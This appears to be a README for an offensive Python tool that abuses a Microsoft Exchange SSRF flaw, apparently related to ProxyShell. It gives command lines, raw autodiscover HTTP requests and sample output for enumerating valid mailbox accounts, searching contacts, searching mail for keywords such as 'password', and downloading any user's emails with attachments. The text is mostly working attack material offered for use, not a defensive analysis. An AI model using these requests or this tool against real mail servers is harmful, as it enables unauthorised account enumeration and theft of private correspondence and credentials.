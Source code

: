 # Some Attacks of Exchange SSRF

# This project is heavily replicated in ProxyShell, NtlmRelayToEWS

https://mp.weixin.qq.com/s/GFcEKA48bPWsezNdVcrWag

## Brute Account 爆破可能存在的用户

file with emails 需要尝试的邮箱文件：

/tmp/emails.txt：

```
admin@exchange.com
test@exchange.com
jumbo@exchange.com
ceshi@exchange.com
support@exchange.com
```

run 运行程序：
```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Brute --file /tmp/emails.txt
```

result 结果：

```
admin@exchange.com valid
support@exchange.com valid
```

![image-20210817172750895](README.assets/image-20210817172750895.png)



爆破用户的几个接口 一：

```
POST /autodiscover/autodiscover.json?a=a@edu.edu/ews/exchange.asmx HTTP/1.1
Host: mail.exchange.com
User-Agent: Python PSRP Client
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Cookie: Email=autodiscover/autodiscover.json?a=a@edu.edu
Content-Length: 776

<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" 
xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" 
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <m:GetFolder>
            <m:FolderShape>
                <t:BaseShape>Default</t:BaseShape>
            </m:FolderShape>
            <m:FolderIds>
                <t:DistinguishedFolderId Id="inbox">
                    <t:Mailbox>
                        <t:EmailAddress>admin@exchange.com</t:EmailAddress>
                    </t:Mailbox>
                </t:DistinguishedFolderId>
            </m:FolderIds>
        </m:GetFolder>
    </soap:Body>
</soap:Envelope>
```

用户存在会提示：

```
Access is denied. Check credentials and try again., 
```



爆破用户的几个接口 二：

```
POST /autodiscover/autodiscover.json?a=a@edu.edu/autodiscover/autodiscover.xml?=&Email=autodiscover/autodiscover.json?a=a@edu.edu HTTP/1.1
Host: mail.exchange.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36.
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 369

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
        <Request>
          <EMailAddress>admssin@exchange.com</EMailAddress>
          <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
        </Request>
    </Autodiscover>
    
```

用户不存在会提示：

```
The email address can't be found.
```



## Search Contacts 搜索联系人

run 运行程序：

```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action SearchC --email validuser@exchange.com --keyword test
```

`--keyword`为你想要搜索的联系人关键词。

result 结果：

```
Board.Test@exchange.com
LTSTest@exchange.com
```



## Search Mails And Download (include attachment) 搜索邮箱并下载，包括附件

run 运行程序：

```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action SearchM --email userwantdown@exchange.com --keyword password
```

`--keyword`为你想要搜索的关键词，比如"密码"。

result 结果：

```
[+] Item [output/password-item-0.eml] saved successfully
```

keyword关键词可以使用一些邮件语法，比如搜索主题时，可以用`--keyword "subject:password"`



## Download user's emails (include attachment) 下载指定用户的邮件，包括附件

run 运行程序：
```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Download --email userwantdown@exchange.com
```
result 结果：

```
[+] Item [output/item-0.eml] saved successfully
```



![image-20210818142426337](README.assets/image-20210818142426337.png)

![图片](README.assets/640.png)
